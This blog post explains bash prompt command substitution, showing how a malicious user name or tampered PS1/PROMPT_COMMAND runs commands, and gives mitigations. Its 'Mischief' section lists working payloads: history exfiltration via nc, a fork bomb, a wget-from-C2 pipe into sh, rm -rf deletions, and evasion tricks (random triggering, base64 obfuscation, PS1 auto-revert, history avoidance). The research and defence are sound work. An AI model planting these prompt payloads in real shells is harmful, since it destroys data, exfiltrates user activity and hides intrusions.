

Blog: Stupid bash tricks- command substitution, command injection, and the bash command prompt
description: It turns out you can use special characters in linux names. What could possibly go wrong?
date published: 2025-01-28 | date updated: 2025-01-28

It turns out you can use special characters in linux user names. Cute, but it
can have some unexpected consequences. Be glad your user name isn’t
$(rm -rf ~) for instance. Can you guess what happens when you open up your
first interactive bash shell?
Command Substitution
Yup, command substitution happens. Bye bye, files. Bash, like all good shells, will take the output of a command contained within $() or `` (backticks) and substitute the command’s output into the string where the command was. Pretty handy for all kinds of shell tasks, and it even works in the prompt definition string. Even if your user name happens to be an injected command!
This happens because it's typical for the prompt to contain the user name. Bash
uses the environment variable, PS1 to define the prompt string. Escaped
characters like \u and \w, for instance, get expanded into other strings that
are useful for dynamic prompt components, like the user name or working
directory. But even more flexibility comes from substituting the output of an
arbitrary command. In the above example, the \u in the prompt string gets
substituted by $(rm -rf ~), which then gets substituted by the output of
running that command. Even if the command yields no output, it has still been
run.
Bash also recognizes PS2, PS3, and PS4, for various, less-commonly seen prompts. PS2 is probably most familiar to the average user as the "> " prompt when entering a multi-line command. All the parsing and command substitution topics discussed below also apply to those prompts, but they are less frequently encountered. Other than to briefly note here that they might provide a more obscure or niche attack vector, they will not be discussed further in this writeup.
Parsing
Shells have to do a lot of parsing, and do it correctly, every time. Writing good parsers is actually really hard, in part because it’s so easy to write vulnerable code. It’s been suggested that writing parsers should be done as rigorously as writing cryptographic libraries1– in other words, don’t “roll your own.”
If you need a parser that doesn’t already exist, and don’t want to write it from scratch yourself, you’re in luck. General purpose parser generators, like GNU Bison2, Yacc (Yet Another Compiler Compiler)3 and various others take a user-defined, context free grammar and use it to output code (C, in this case) that performs the corresponding parsing for you.
The bash code base employs Bison to generate a core function called yyparse from
the grammar defined in parse.y. This file also contains C code snippets which
Bison copies directly, along with the generated yyparse, into a source file
called y.tab.c.
When parsing PS1, Bash expands \ characters (like \u and \w) before it
performs command substitution. This is why \u -> $(rm -rf ~) ->
<command execution>. But suppose that your working path contains a directory
named $(ls)? Will ls be run? In this case, actually, no. The reason is that
the bash source code (in parse.y, function decode_prompt_string) puts the
directory string into double quotes, masking it from future expansion.
As of the latest stable release at the time of this writeup (5.2), bash doesn’t double-quote user names after expansion from \u, though. The good news: the expanded \u will be double-quoted in a future release.4,5 This exempts the user name string from being parsed for command substitution.
When bash finds a command substitution that it needs to parse in PS1, it
begins a series of nested calls starting with decode_prompt_string in
parse.y, and going back and forth between routines in parse.y, subst.c,
and builtins/evalstring.c, early on joining the common pathway of command
substitution, and ultimately calling execute_command_internal in
execute_cmd.c. The subshell created to do this captures the output of the
command and returns it to decode_prompt_string, and that goes into your prompt
string.
Note: This article specifically focuses on how bash does this, but some other shells will do it in their own way, too. [D]ash will execute commands, as will zsh if you first enable the PROMPT_SUBST (promptsubst) option,6,7 but many others will not.
It’s worth mentioning that commands executed via substitution don’t make it, by
themselves, into the .bash_history file. And why should they? These
substitutions are helpers that are often part of scripts or other automated
tasks. The history file would fill up quickly with chaff unless it ignored all
of these commands. Generally speaking, only commands typed into the CLI make it
into history. For more information, see the history man page, or a nice writeup
by MattCASmith.8
The Command Prompt
Command substitution is, of course, an indispensable part of shells. And it’s a convenient way to inject useful dynamic text into your prompt string. But if you simply want to execute a command before every prompt, command substitution in the prompt string is not your “go-to” way to do this.
For that purpose, bash offers the user an environment variable called
PROMPT_COMMAND, and it runs this command before it gets into the business of
generating each command prompt. PROMPT_COMMAND can also work in concert with
PS1, depending on how you wanted to do things. But almost anything you can do
with PROMPT_COMMAND can also be crammed into PS1, with at least one major
exception. PROMPT_COMMAND commands are executed in the current shell, but
PS1 substituted commands are performed in a subshell. The impact of this is
that environment changes in the subshell die with the subshell and do not
back-propagate to the parent shell. So, output redirection and environment
variable changes are durable if done by PROMPT_COMMAND, but ephemeral if done
by PS1. Another difference: PS1 will expand special escape characters, such
as ‘\u’ for user names, as mentioned above, but PROMPT_COMMAND will not.
Different linux distributions and shells tend to offer their own default
versions of what they consider to be a useful and aesthetic prompt. But many
users customize PS1 to suit their own needs. One category of uses is for
presenting timely information. For instance, you might have it display your IP
address, or change colors depending on the most recent exit status, or show
which git branch is checked out in your working directory.
Another category of uses involves automating frequent tasks or checks. For
instance, commands run by PS1 or PROMPT_COMMAND might run history -a to
ensure every regular command that has been executed is written immediately to
.bash_history instead of waiting until the terminal session closes--which
helps prevent loss of history if the shell is SIGKILLed or power is suddenly
lost.
This capacity can, of course, be used for mischief in the wrong hands. It may seem like an inefficient method for an attacker, because if they can change an environment variable for your prompt, they can probably execute other code, so why would they bother with this?
One scenario involves the delivery phase. A threat actor may have only a brief
window of opportunity to enter commands on a keyboard. Or, they might social
engineer a victim to run a malicious script which edits PS1 or .bashrc.
These opportunities might establish a foothold. Another scenario might involve
an attacker who already owns the victim’s account, but needs to avoid certain
canaries or countermeasures.
Yet another, potentially powerful exploit, could involve a compromised
authentication server. If an attacker can add or control account names in the
server's database, providing a login as $(some-command) might allow for code
execution on an otherwise hardened network host. some-command could launch a
reverse shell, for instance, to help traverse a firewall. This is a potential
area for future research.
Mitigation, Part 1
To put it simply: if an attacker can control the user name, a defender must
watch out for expansion by \u. If the attacker can control PS1 or
PROMPT_COMMAND directly, it doesn't necessarily matter what the user name is;
the defender must always protect the environment variables. These are similar
attack vectors that share a common, final pathway. In practice, both should be
guarded against in accordance with one's threat model, resources, and
priorities. Eliminating all command substitution entirely would be an effective,
but quite extreme, measure, and one not likely to be worth the costs in most
cases. It would generally require a custom patch, but the change would be easy.
User name-based command substitution, on the other hand, should be less of an
issue in future releases (see above).
Beyond universal security principles (including hardening and regular
audits/updates on any network authentication servers), specific mitigations for
command substitution attacks could include periodic or automatic verification of
the contents of .bashrc, /etc/environment, any routine scripts, and specific
environment variables. It’s worth being aware that modules like PAM can also set
environment variables, although an exploit at this level would entail more dire
concerns.
PS1 and PROMPT_COMMAND can both contain commands to validate themselves
and/or the other variable, and alert the user if an unexpected state is
detected. PROMPT_COMMAND could reset PS1 to a trusted value. Either could
perform validation, for instance by comparing against a trusted value (such as a
string or hash stored in a write-protected file). This would be an imperfect,
but relatively inexpensive, method for situations where you could screen for
changes in PS1.
Example, in .bashrc:
PROMPT_COMMAND=’echo $PS1 | md5sum -z | diff ~/.myPS1hash - > /dev/null;\
if [[ $? -gt 0 ]]; then\
echo Warning, PS1 altered;\
else\
echo PS1 OK;\
fi; # ugly
Or in PS1:
PS1='$( \
echo $PS1 | md5sum -z | diff -q - ~/.myPS1hash >/dev/null;
if [[ $? -eq 0 ]]; then \
echo -e "\033[1;32m\u@\h:\w\\$ \033[0m"; \ # Green text means OK
else \
echo -e "\033[1;31m\u@\h:\w\\$ \033[0m"; \ # Red text is bad
fi )' # less ugly
Once you set your new PS1, just echo $PS1 | md5sum -z > ~/.myPS1hash and
make sure it is write protected, or give ownership to root, or put it on a
read-only medium.
Mitigation, Part 2
Since this is, essentially, a screening methodology, it is worth interjecting a few words on proper screening test design.
An ideal screening test is fast, cheap and highly sensitive, at the expense of specificity. In other words, you accept the burden of many false positive results, for the benefit of being less likely to miss a true positive event. Given that a test which is fast and cheap will probably suffer costs in the accuracy department, the screening test is usually intentionally tuned to favor flagging something as abnormal if there’s any uncertainty. The mitigation strategy described so far, of checking for changes in variables, is highly specific, i.e. it’s not likely to falsely report a change in a string. But, it’s not very sensitive, i.e. there are many ways an effective attacker could defeat it. In other words, it’s the opposite of what a good screening test should be, in at least some ways.
Unfortunately, in cybersecurity, sensitivity is an ever-elusive goal. With intelligent adversaries trying to be as undetectable as possible, creating a high sensitivity screening test for this situation can be very difficult. Easy screening methods for this attack all basically depend on the attacker not being aware of, nor bothering to try, circumvention.
Not only are simple detection methods easy to circumvent, but robust detection
methods are hard to create. Indeed, a specific challenge here is that it is
tough to actively monitor these variables from outside the shell itself.
/proc/<pid>/environ can helpfully show the shell’s initial environment, but it
only updates when the process starts, and is therefore insufficient. Following
an environment variable directly from outside the shell would probably require
something on the level of a ptrace system call. Now we’re getting into some
pretty invasive monitoring, which is less easy to set up and may entail
significant performance costs. One could indirectly follow environment variables
by periodically exporting the environment to a file, and ensuring a daemon
monitors that file. But even that method suffers from various weaknesses,
especially if it depends on PROMPT_COMMAND or PS1 themselves to do the
exporting. There are open source tools that may be able to monitor a process'
internal environment, but they are untested by this author.
Mischief
The point is not to present malicious code here, but to provide proof of concept
for non-trivial attacks, such as denial of service, data destruction, or
exfiltration. And while pretty much all of these could be adapted into
PROMPT_COMMAND, they are simply shown here in PS1= form to highlight command
substitution.
One thing an attacker wouldn’t want to do, would be to make an obvious change to
the appearance of the command prompt itself. The following examples assume a
basic command prompt appearance for simplicity's sake, but a better approach
might involve PROMPT_COMMAND capturing the original PS1 into a backup
variable, so then PS1 can invoke that backup variable to recreate the original
appearance.
Examples (i.e. PS1=' ', using single quotes)
Nuisances: Injecting delays, screen clearing pranks
'$(sleep 2)\u@\h:\w$ '
'$(clear)\u@\h:\w$ '
Snooping on command history:
'$(history -a; tail -n 1 ~/.bash_history | nc -q 0 localhost 12345)\u@\h:\w$ '
# set up a listener on localhost 12345 to snoop on what the user is running.
# nc -u might be necessary or simpler in some cases, too.
There are limits to how real-time you can snoop. You might expect this would allow for complete output logging:
'$([[ -t 1 ]] && exec > >(tee >(nc -q 0 localhost 12345)) 2>&1)\u@\h:\w$ '
But, this does not work. The command is run in a sub-shell, so any output redirection method that is born there, dies there. This aspect makes it hard, if not impossible, to use output redirection as intended. (Prove me wrong, though!)
Fork bombing (see evading, below):
'`bomb() { bomb | bomb& }; bomb`\u@\h:\w$ '
# can obfuscate easily by replacing 'bomb' with a single character
RCE / fetching commands from a C2 server:
'$(wget -q -O - www.example.com/c2/script_to_run.sh | sh)\u@\h:\w$ '
Gradually filling up the file system:
'`echo \`cat ~/.profile\` >> ~/.profile`\u@\h:\w$ '
Deleting a user's home folder:
'$(rm -rf ~)\u@\h:\w$ '
'$(rm -rf /* > /dev/null 2>&1)\u@\h:\w$ '
The latter will not delete everything, but it will delete everything the user is privileged for, including their home folder. As a bonus, it will also tie things up for a while as it traverses the entire filesystem.
Deleting all files (after tricking them into entering the sudo pw)
'$(sudo rm -rf /*)\u$\h:\w$ '
Some potential attacks are limited by the command substitution occurring in a subshell. Future work might include how to potentially use a tool like script to log all shell text, or how to build an actual keylogger, which would be more complicated. Another complicated exploit might involve engineering the user into entering their current password, which could be exfiltrated or used to change the password itself.
Evading detection:
Some actions, like erasing a user’s home folder, or fork bombing, are so drastic that they likely result in immediate discovery of the attack. An attacker can be sneakier by combining some of the more impactful attacks with a probabilistic check. If a fork bomb only executes 1 in 100 times, for instance, it is much more likely to misdirect blame toward something else:
'if [ $(($RANDOM % 100)) -eq 1 ]; then do_something_nasty; fi'
These commands kind of stick out in PS1. Maybe we can obfuscate them a little bit. What about base64 encoding your command?
'$(echo c2xlZXAgMg== | base64 -d)'
You could also use PROMPT_COMMAND to auto-revert PS1, to hide your tracks.
If you recall above, PS1 cannot do this to itself, due to the subshell. Only a
PROMPT_COMMAND instruction can do this reversion. Despite that, there are lots
of ways to do this (assume check_for_something is a function the attacker
controls):
'if [ "$(check_for_something)" -eq 1 ]; then PS1=$OLDPS1 "; fi'
'[ “$(check_something 2> /dev/null)” ] && PS1=$OLDPS' # trivially more concise, but potentially less robust than an if statement
Recent versions of bash (since 5.1-alpha) allow PROMPT_COMMAND to be an array
of commands. This could facilitate removing incriminating commands without
having to selectively regenerate an entire, long string.
Speaking of covering your tracks, remember how prompt command substitution does not show up in bash history? There are, of course, many ways to avoid recording commands in the bash history, but one of them might be executing them by prompt command substitution. Forensic investigators should already understand that bash history is relatively specific, but not sensitive, diagnostically speaking. In other words: if something is in the history, it probably happened... but if it’s not there, it doesn’t mean it didn’t happen.
A final word on user names: this whole journey began with the observation (By
Ben Kallus and Jonah Weinberg of ISTS/Dartmouth College) that linux behaves
strangely when a user has a malicious name, like $(rm -rf ~). But the user
name could be malicious without invoking command substitution. For instance, the
user name "../tmp", yields an unexpected account with a valid, but
non-obvious, home folder, which could serve as a back door of sorts.
There have even been recent debates9 about what kinds of special characters, non-ASCII character sets, or other patterns warrant closer scrutiny in Debian user names. While it is understandable and perhaps even supportable that many users want characters beyond ASCII, great care should be taken to avoid introducing new security risks. The case of character confusion over identical- or similar-appearing unicode characters is a prime example. One must expect that any broad increase in complexity will inevitably carry with it new security risks, and prepare accordingly.
Prompt command substitution is powerful, flexible, and completely agnostic towards your security concerns. Many of the above examples can be combined for greater effect. Have fun experimenting with them, and try not to erase your home folder while you're at it!
Acknowledgements
Thanks to Ben Kallus and Jonah Weinberg for ideas and discussions, and for originally identifying user name command substitution. Additional thanks to Solra Bizna and Pips of 801 Labs for peer review.
References
-
Bratus, et al. Curing the Vulnerable Parser: Design Patterns for Secure Input Handling. Usenix ;login:, Spring 2017 Vol. 42, NO. 1, 32-39
-
https://www.gnu.org/software/bison/
-
https://www.cs.utexas.edu/~novak/yaccpaper.htm
-
https://savannah.gnu.org/patch/?10496
-
https://git.savannah.gnu.org/git/bash.git, branch 'devel' commit 25e213a, 24 Jan 2025.
-
https://manpages.debian.org/bookworm/ash/ash.1.en.html
-
https://zsh.sourceforge.io/Doc/Release/Prompt-Expansion.html
-
https://mattcasmith.net/2022/02/22/bash-history-basics-behaviours-forensics
-
https://lwn.net/ml/all/Zz9xogrnHDSFjZUn@torres.zugschlus.de/